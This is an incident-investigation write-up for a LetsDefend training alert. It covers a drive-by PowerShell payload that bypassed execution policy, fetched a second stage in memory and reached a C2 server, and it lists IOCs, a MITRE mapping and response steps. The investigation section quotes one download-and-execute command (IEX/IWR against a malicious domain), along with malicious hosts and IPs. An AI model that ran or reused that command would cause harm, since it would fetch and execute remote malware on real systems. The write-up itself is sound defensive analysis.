

# INV-003: Suspicious PowerShell Execution, Drive-By Download Leading to C2 Callback

| | |
|---|---|
| **Platform** | LetsDefend |
| **Category** | Malware Execution |
| **Severity** | Medium |
| **Verdict** | True Positive |

## Executive Summary

SIEM rule SOC153 flagged a suspicious PowerShell script, `payload_1.ps1`, executed on host `Tony` (172.16.17.206). AV/EDR detected the file as malicious but didn't quarantine it. The file was downloaded from an external web-hosted URL through a drive-by download rather than a phishing email. It executed with an execution policy bypass, triggered a fileless second-stage download, and established a confirmed callback to a C2 server. Playbook data confirms the C2 connection was established, not just attempted. Host isolated, C2 and delivery infrastructure blocked, credential reset recommended.

## Alert Information

| Field | Value |
|-------|-------|
| Alert ID | SOC153 (Event ID 238) |
| Detection Rule | SOC153, Suspicious Powershell Script Executed |
| Hostname / Asset | Tony (172.16.17.206) |
| File Name | payload_1.ps1 |
| File Path | C:\Users\LetsDefend\Downloads\payload_1.ps1 |
| File Hash | db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0 (SHA-256) |
| AV/EDR Action | Detected, not quarantined |

## Investigation

AV/EDR flagged `payload_1.ps1` in Tony's Downloads folder but left it running instead of pulling it, so whatever this file did, it had a live window to do it in. Proxy logs show the file itself was downloaded from an AWS-hosted URL, `files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1`, with no matching entry in email security logs, which points to a drive-by web download rather than a phishing delivery.

Execution ran through `powershell.exe` with `Set-ExecutionPolicy -Scope Process Bypass`, stripping the usual signing requirement before the local script ran. From there, the script spawned a second-stage pull: `cmd.exe` running `powershell -command IEX(IWR -UseBasicParsing 'https://kionagranada.com/upload/sd2.ps1')`, downloading and executing a follow-on script directly in memory. `kionagranada.com` resolves to 161.22.46.148.

Playbook data confirms the malware reached its C2 and the connection was accessed successfully, not just attempted. The callback address, 91.236.116.163, uses query parameters (`ID` and `SUBID`) that read like loader check-in traffic rather than a one-off beacon.

Malware analysis on the hash came back malicious. Checking that hash against VirusTotal shows 46 of 71 vendors flagging it, classified generically as a Trojan/PowerShell Downloader. A separate public sandbox report keyed to this exact hash tags it more specifically with loader and info-stealer behavior (crypto wallets, FTP and VPN credentials, browser data), associated with the AZORult family. The two sources don't fully agree on a specific family name, so I'm treating the family attribution as likely but not certain, and noting both instead of picking the more specific-sounding one.

One gap worth stating plainly: the case data I had going in was Playbook answers and a short note, without the underlying log excerpts. The download source, C2 address, and file reputation detail came from going back to the log record and cross-referencing published threat intel rather than being in the initial handoff.

## IOC Table

| Type | Value | Description |
|------|-------|--------------|
| SHA-256 | db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0 | Malicious payload (payload_1.ps1) |
| URL | files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1 | Drive-by download source for the initial payload |
| Domain | kionagranada.com | Hosted second-stage script (sd2.ps1), fetched via IEX/IWR in memory |
| IP | 161.22.46.148 | Resolves from kionagranada.com |
| IP | 91.236.116.163 | C2 server, confirmed callback |
| Host | Tony (172.16.17.206) | Compromised host |

## Threat Intelligence

| Indicator | Checked Via | Result |
|-----------|-------------|--------|
| Payload hash | VirusTotal | 46/71 vendors flag it malicious; classified as Trojan/PowerShell Downloader |
| Payload hash | Public sandbox analysis | Tagged with loader/stealer indicators (AZORult-associated); targets crypto wallets and stored credentials. Family naming isn't fully consistent across sources, so treating this as likely, not confirmed |
| 91.236.116.163 | AbuseIPDB / VirusTotal | No public report on this specific address; a neighboring IP in the same /24 (same ISP) carries active malicious tags for phishing, malware, and spyware, consistent with abused hosting infrastructure |
| 161.22.46.148 | VirusTotal | No independent public report found beyond its role in this case as the resolved C2-adjacent IP for kionagranada.com |
| kionagranada.com | Manual review | No independent reputation data found publicly; functions as a second-stage payload host in this delivery chain |

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|--------|-----------|----------|
| Initial Access | T1189, Drive-by Compromise | payload_1.ps1 downloaded from a web-hosted URL, no phishing email involved |
| Execution | T1059.001, Command and Scripting Interpreter: PowerShell | cmd.exe spawning powershell.exe to run the downloaded and local payloads |
| Defense Evasion | T1562, Impair Defenses | Execution Policy Bypass used to run the script without the usual signing restriction |
| Command and Control | T1071.001, Web Protocols | HTTP callback to 91.236.116.163 with ID/SUBID check-in parameters |

## Impact & Verdict

Confirmed compromise of host Tony through a drive-by delivered PowerShell payload that bypassed execution policy, pulled a second-stage script in memory, and reached an active C2 server. AV/EDR detected the file but didn't quarantine it, so the malware had a running window instead of being blocked outright. Playbook data confirms the C2 was reached, not merely attempted. Scope beyond this host wasn't part of the case data handed off, so whether any harvested data was exfiltrated or used elsewhere isn't something I can speak to here. Verdict is True Positive, high confidence. A malicious, vendor-flagged hash, a policy bypass, a fileless second-stage pull, and a confirmed C2 connection line up too cleanly for another explanation.

## Recommended Response

- **Containment:** Isolate host 172.16.17.206
- **Eradication:** Remove payload_1.ps1; block 91.236.116.163, 161.22.46.148, and kionagranada.com at the firewall/proxy
- **Recovery:** Rotate credentials for anything accessible from that host, including browser-saved logins, FTP, VPN, and any crypto wallets used on the machine
- **Prevention:** Restrict PowerShell execution policy at the endpoint (Constrained Language Mode or AppLocker); enable PowerShell Script Block Logging; review why AV/EDR detected the file but didn't auto-quarantine it

## Lessons Learned

Detection without enforcement is the real gap here. AV/EDR correctly flagged the file as malicious and still let it run, which points to a policy or configuration issue independent of this one incident and worth raising on its own. Also worth flagging for process: the case handoff I worked from was playbook answers and a short note, without the log excerpts. Reconstructing the download source, C2 address, and file reputation meant going back to the log record and cross-referencing external threat intel afterward. Pulling log excerpts alongside playbook answers up front would save that extra pass next time.

## Evidence

### Alert Overview

*Figure 1: LetsDefend alert overview showing the alert details, completed playbook, and final True Positive verdict.*
